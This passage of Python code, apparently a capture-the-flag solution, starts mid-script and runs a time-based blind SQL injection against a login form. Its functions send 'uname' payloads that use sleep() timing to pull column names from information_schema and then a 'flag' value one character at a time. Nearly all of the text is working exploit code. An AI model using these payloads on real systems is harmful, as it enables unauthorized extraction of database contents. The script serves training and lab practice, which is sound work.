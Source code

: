 ```python
                        print("第四张表名为->"+table4)
                    else:
                        continue
get_table()

def get_column():
    column1 = ''
    column2 = ''
    column3 = ''
    column4 = ''
    for i in range(5):
        for j in range(6):
            for k in range(32,127):
                column_payload = {"uname":'1admin") and if(ascii(substr((select column_name from information_schema.columns where table_name=\'flag\' limit %d,1),%d,1))=%d,sleep(2),1)#'%(i,j,k),"passwd":"1"}
                time1 = datetime.datetime.now()
                res = requests.post(url,column_payload)
                time2 = datetime.datetime.now()
                difference = (time2-time1).seconds
                if difference > 1:
                    if i == 0:
                        column1 += chr(k)
                        print("第一个字段名为->"+column1)
                    if i == 1:
                        column2 += chr(k)
                        print("第二个字段名为->"+column2)
                    if i == 2:
                        column3 += chr(k)
                        print("第三个字段名为->"+column3)
                    if i == 3:
                        column4 += chr(k)
                        print("第四个字段名为->"+column4)
                    else:
                        continue
get_column()

def get_flag():
    flag = ''
    for i in range(30):
        for k in range(32,127):
            flag_payload = {"uname":'1admin") and if(ascii(substr((select flag from flag),%d,1))=%d,sleep(2),1)#'%(i,k),"passwd":"1"}
            time1 = datetime.datetime.now()
            res = requests.post(url,flag_payload)
            time2 = datetime.datetime.now()
            difference = (time2-time1).seconds
            if difference > 1:
                flag += chr(k)
                print("flag为->"+flag)
            else:
                continue
get_flag()
```
